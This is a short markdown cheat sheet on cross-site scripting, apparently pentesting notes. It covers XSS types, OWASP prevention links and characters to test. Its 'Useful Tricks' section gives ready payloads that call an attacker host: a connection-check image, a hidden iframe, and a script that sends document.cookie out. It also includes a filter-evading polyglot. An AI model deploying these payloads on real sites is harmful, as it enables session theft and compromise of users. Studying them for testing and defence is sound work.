[Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting) either client-side or server-side
Unsanitized data can allow attacker to inject client side scripts into webpages and execute malicious code.

XSS Type | Description | Potential Targets
--- | ---
Stored or Persistent(Can be blind) XSS | Payload is stored in database or cached by server | Everyone
Reflected XSS  | Payload included into a page contents | Request-er or link follower only
DOM-Based XSS  | Similar to the above but only occuur in a page's Document Object Model (DOM) | Browser parses the page's content
Self-XSS | Social Engineering a victim to the execute malicious JS | Socially Engineered
Mutated XSS | Injection that rewritten and modified by browser while parsing the markup. | Type related. 

## Prevention

A defense in depth approach should be applied as data should be sanitized in every location to where the data is passed.

[XSS Prevention Cheatsheet from OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
[DOM XSS Prevention Cheatsheet from OWASP ](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)


## Identifying XSS

If the application does not filtering these characters by removing or encoding them, it may be vulnerable to XSS.
```javascript
< > ' " { } ;
```


## Useful Tricks
Listener at the ready you can check if you get a connection back:
```html
<img src=http://$attacker-ip:port />
```
[Bankrobber Ippsec Video](https://www.youtube.com/watch?v=zYmA9ECuCio)

Content injection, server a file with an iframe of no size sending victims browser to a client-side attack or to script that gathers information. 
```html
<iframe> src=http://$attacker-ip:port/file height=”0” width=”0”></iframe>
```

Cookie Stealing
```html
<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```

Bypass payload size restrictions by [linking to an external Javascript file](https://www.youtube.com/watch?v=Uo3cL4nrGOk).


## XSS Polyglots
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```

## SKing7's XSS Filter Evasion Cheat Sheet

This cheat sheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defense for XSS which these tests can be used to illustrate. 
[Sking7](https://sking7.github.io/articles/218647712.html)


## References
[Owasp](https://owasp.org/www-community/attacks/xss/)
[XSS Prevention Cheatsheet from OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
[DOM XSS Prevention Cheatsheet from OWASP ](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
[XSS Wiki](https://en.wikipedia.org/wiki/Cross-site_scripting)
[sking7](https://sking7.github.io/articles/218647712.html)
[Bankrobber Ippsec Video](https://www.youtube.com/watch?v=zYmA9ECuCio)
[Owasp Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting)